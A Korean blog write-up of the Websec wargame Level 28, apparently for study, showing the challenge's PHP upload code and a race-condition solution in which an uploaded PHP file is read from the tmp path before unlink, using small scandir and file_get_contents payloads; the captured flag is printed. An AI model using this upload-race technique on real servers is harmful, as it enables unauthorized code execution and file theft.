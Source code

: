 ```yaml
---
title : "Websec - Level 28 (풀이봄)"
categories : [Wargame, Websec]
tags: [websec, websec level 28 writeup, race condition, 풀이 봄]
---
```


## Level 28
<hr style="border-top: 1px solid;"><br>

``` php
<?php
if(isset($_POST['submit'])) 
{
  if ($_FILES['flag_file']['size'] > 4096) {
    die('Your file is too heavy.');
  }
  $filename = './tmp/' . md5($_SERVER['REMOTE_ADDR']) . '.php';

  $fp = fopen($_FILES['flag_file']['tmp_name'], 'r');
  $flagfilecontent = fread($fp, filesize($_FILES['flag_file']['tmp_name']));
  @fclose($fp);

  file_put_contents($filename, $flagfilecontent);
  if (md5_file($filename) === md5_file('flag.php') && $_POST['checksum'] == crc32($_POST['checksum'])) 
  {
    include($filename);  // it contains the `$flag` variable
  } 
  else 
  {
    $flag = "Nope, $filename is not the right file, sorry.";
    sleep(1);  // Deter bruteforce
  }

  unlink($filename);
}
?>

Select file <input type='file' name='flag_file' id='flag_file' hidden class="hidden">
<input type='text' name='checksum' id='checksum' class="form-control">
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

우선 우리는 파일에 대해 검사를 하는 if문을 만족시킬 수 없으므로 우회를 해야함. 

else 문을 보면 sleep(1) 코드가 있고 else문이 끝나고 unlink를 함.

즉, 1초 약간 넘는 시간동안은 파일을 볼 수 있다는 소리가 됨. 이런 기법을 ```Race Condition``` 이라고 함. 

<br>

flag.php의 내용을 출력해주는 php 파일을 작성해야 한다.

테스트로 현재 경로에 어떤 파일과 디렉토리가 있는지 확인해보았다.

파일을 업로드 후 출력되는 tmp경로로 바로 확인을 해주면 출력값이 나온다.

<br>

```php
<?php
	scandir('/');
?>

# result
# Array ( [0] => . [1] => .. [2] => flag.php [3] => index.php [4] => php-fpm.sock [5] => source.php [6] => tmp )
```

<br>

따라서 flag.php의 내용을 출력해주면 된다.

<br>

```php
<?php
	$flag = file_get_contents('/flag.php');
	echo $flag;
  // echo file_get_contents('/flag.php');
  // echo file_get_contents('./flag.php'); -> 안됌
?>

# result
# $flag = 'WEBSEC{Can_w3_please_h4ve_mutexes_in_PHP_naow?_Wait_there_is_a_pthread_module_for_php?!_Awwww:/}';
```

<br><br>
<hr style="border: 2px solid;">
<br><br>
